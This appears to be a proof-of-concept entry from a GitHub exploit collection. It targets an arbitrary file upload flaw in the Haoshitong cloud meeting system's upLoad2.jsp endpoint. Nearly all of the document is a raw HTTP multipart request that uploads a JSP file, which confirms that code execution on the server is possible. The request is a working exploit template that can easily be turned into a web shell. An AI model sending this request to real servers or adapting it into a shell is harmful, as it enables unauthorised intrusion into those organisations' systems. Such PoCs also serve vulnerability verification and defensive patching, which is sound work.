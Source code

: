 # hst_upLoad2_fileupload
product: 好视通云会议
```
POST /fm/systemConfig/upLoad2.jsp HTTP/1.1
Content-Type: multipart/form-data; boundary=1515df1sdfdsfddfs
Accept-Encoding: gzip
 
--1515df1sdfdsfddfs
Content-Disposition: form-data; name="file"; filename="dudesuite.jsp"
Content-Type: application/octet-stream
 
<% out.print("dudesuite"); %>
--1515df1sdfdsfddfs--
```

from: https://github.com/wy876/POC/blob/main/%E5%A5%BD%E8%A7%86%E9%80%9A%E8%A7%86%E9%A2%91%E4%BC%9A%E8%AE%AE%E7%B3%BB%E7%BB%9F/%E5%A5%BD%E8%A7%86%E9%80%9A%E4%BA%91%E4%BC%9A%E8%AE%AEupLoad2.jsp%E6%8E%A5%E5%8F%A3%E5%A4%84%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
